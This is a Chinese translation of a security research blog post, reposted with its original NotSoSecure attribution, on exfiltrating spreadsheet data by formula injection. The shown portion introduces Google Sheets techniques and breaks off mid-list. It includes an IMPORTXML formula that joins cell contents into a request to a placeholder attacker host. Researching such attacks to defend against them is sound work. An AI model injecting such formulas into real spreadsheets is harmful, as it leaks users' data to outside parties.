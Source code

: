 > 原文链接: https://www.anquanke.com//post/id/146668 


# 通过公式注入从电子表格中泄露数据


                                阅读量   
                                **93684**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：https://www.notsosecure.com/
                                <br>原文地址：[https://www.notsosecure.com/data-exfiltration-formula-injection/](https://www.notsosecure.com/data-exfiltration-formula-injection/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p1.ssl.qhimg.com/t0132a3dcffac0dd7bf.jpg)](https://p1.ssl.qhimg.com/t0132a3dcffac0dd7bf.jpg)

## 写在前面的话

由于最近有趣的客户端测试，我们越来越有兴趣查找和记录使用band（OOB）方法从电子表格提取数据的方式。我们在本文中描述的方法假设我们对电子表格的内容有一定的控制（虽然有限），但是我们仍然不能访问整个文档或客户端（目标）系统。<br>
我们粗略了解了LibreOffice和Google Sheets，并为每个PoC提供了几个PoC。我们特别关注非基于Windows的应用程序，因为这方面已经做了很多工作，我们不想重复他们工作。<br>
在这篇博客文章中，我们概述了来自NotSoSecure团队的Ajay（@ 9r4shar4j4y）和Balaji（@ iambalaji7）所进行的研究。以下PoC可能允许我们使用相对简单的内置功能来泄露潜在的敏感信息，甚至可以在各个客户端系统上读取文件内容。希望本文可能会提醒您应该注意的一些潜在的攻击途径。<br>
让我们开始吧！！



## Google表格OOB数据泄露

如果我们希望获取实时数据，基于云的数据捕获可能是我们最好的选择。这是因为与基于客户端的攻击不同，我们可以快速连续地在表单中填充数据并接收接近实时的响应。<br>
攻击情景可能会有很大不同，具体取决于您可以使用的内容。如果您能够创建或上传CSV文件或类似文件到目标中，你可能有更大的优势来成功地利用某些东西。<br>
首先，我们来介绍一些更有趣的功能。<br>
CONCATENATE：将字符串互相追加。

```
= CONCATENATE（A2：E2）
```

IMPORTXML：从各种结构化数据类型（包括XML，HTML，CSV，TSV以及RSS和ATOM XML Feed）导入数据。

```
= IMPORTXML（CONCAT（“http：// [remote IP：Port] /123.txt?v=”，CONCATENATE（A2：E2）），“// a / a10”）
```

IMPORTFEED：导入RSS或ATOM。

